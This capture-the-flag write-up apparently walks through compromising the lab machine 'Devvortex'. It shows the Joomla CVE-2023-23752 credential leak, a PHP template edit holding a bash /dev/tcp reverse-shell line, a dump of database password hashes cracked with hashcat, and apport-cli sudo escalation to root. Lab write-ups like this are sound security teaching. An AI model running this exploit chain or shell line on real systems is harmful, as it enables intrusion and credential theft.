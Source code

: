 # Initial enumeration
Starting off, I used `nmap` as usual.
```bash
$ sudo nmap -p- --min-rate 10000 -sCV -A 10.10.11.242

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-19 12:23 EDT
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/19%OT=22%CT=1%CU=30869%PV=Y%DS=2%DC=T%G=Y%TM=65F9
OS:BC1D%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=10A%TI
OS:=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5
OS:3CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O
OS:6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%D
OS:F=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%I
OS:PL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   40.37 ms 10.10.14.1
2   32.92 ms devvortex.htb (10.10.11.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.94 seconds
```
- Domain found: `devvortex.htb`
- Ports open: `22, 80`

Further enumeration using `gobuster` (`vhost`, `dir`, `dns`) doesn't lead to much, although we do find:
- `dev.devvortex.htb`

After enumerating this endpoint with gobuster through directory brute forcing we find:
`dev.devvortex.htb/administrator`

Switching over to the Wappalyzer extension it says the site is Joomla
- [Joomla Hacktrickz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

We find the Joomla version at `/administrator/manifests/files/joomla.xml`
![[Pasted image 20240319122913.png]]

Joomla Version: `4.2.6`

After searching google "Joomla 4.2.6 exploits" we find [CVE-2023-23752](https://www.exploit-db.com/exploits/51334)
if you have `searchsploit` installed locally along with `exploit-db`, you should already have this locally. 
```
Joomla! v4.2.8 - Unauthenticated information disclosure       | php/webapps/51334.rb
/usr/share/exploitdb/exploits/php/webapps/51334.rb
```

After running this exploit:
```bash
 ruby /usr/share/exploitdb/exploits/php/webapps/51334.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```


Nice now we have the username and password to login to the login page found at the endpoint `http://dev.devvortex.htb/administrator`
Username: `lewis`
Password: `P4ntherg0t1n5r3c0n##`

After logging into the admin panel, under `System`. we can find an option to customize Administrator templates in browser. From here we can very simply get a reverse shell by selecting any of the templates and adding in the line:
`system('bash -c "bash -i >& /dev/tcp/LOCAL_IP/4444 0>&1"');`

After setting up a local listener, we can then get a shell as the `www-data` user.
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.242] 60262
bash: cannot set terminal process group (873): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ python3 --version        
python3 --version
Python 3.8.10
#Updgrading shell to full tty
www-data@devvortex:~/dev.devvortex.htb/administrator$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

From here, we can note the username and password we found earlier for the database.
```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##

#Show databases
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+

#Use joomla db
USE joomla;

# Show all tables
SHOW TABLES;
# The output from this showed a lot of tables, however the most promising table containing potential sensitive information was:
| sd4fg_users |

# Viewing the data from the sd4fg_users table
SELECT * FROM sd4fg_users;
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-19 16:03:23 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL  
```


Nice! we got some password hashes now. We can then copy and past these hashes to a file on our host machine and start to try and crack the hashes using `hashcat`.

Firstly, we need to find the correct mode to use for hashcat using `hashid`:
```
hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' -m
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

Nice so it is a `bcrypt` hash... Moving on to hashcat:
```bash
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
- It takes a bit but eventually we get a hit on the password:
```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Now SSH'ing into the host:
```
ssh logan@devvortex.htb  
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password:
```

Now, after grabbing the flag `user.txt` we can move on to escalating privileges to the root user.
```bash
sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

From this information, we then google: `"apport-cli sudo privilege escalation"`.
We then find a PoC for [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC).

This privilege escalation attack was found in apport-cli 2.26.0 and earlier.
We can check if this version of `apport-cli` is vulnerable using the command:
`sudo /usr/bin/apport-cli -v`
```
2.20.11
```

Interesting, although it isn't an exact match on the version it is still worth a shot. However currently there isn't a crash file present at `/var/crash/` to use based off of the PoC in the link.

After checking what a valid crash report file looks like (format wise) from [here](https://wiki.ubuntu.com/Apport?action=AttachFile&do=get&target=data-format.pdf)

We can make a `example.crash` file as follows:
```
ProblemType: Crash
Architecture: amd64
```

Now testing the exploit:
```
sudo /usr/bin/apport-cli -c ./example.crash
..
..
..

Please choose (S/V/K/I/C): V
!/bin/bash
```
Nice, now we have root!
```
whoami
root

cd ~/root
cat root.txt
```